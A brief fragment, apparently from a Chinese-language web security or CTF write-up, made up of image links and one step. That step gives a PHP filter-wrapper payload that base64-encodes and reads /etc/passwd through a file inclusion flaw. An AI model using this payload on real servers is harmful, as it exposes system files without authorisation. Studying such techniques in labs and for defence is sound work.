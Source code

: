 			![Alt text](/style/image/image-13.png)
			![Alt text](/style/image/image-14.png)

			+ 使用协议读取文件源码：php://filter/read=convert.base64-encode/resource=/etc/passwd
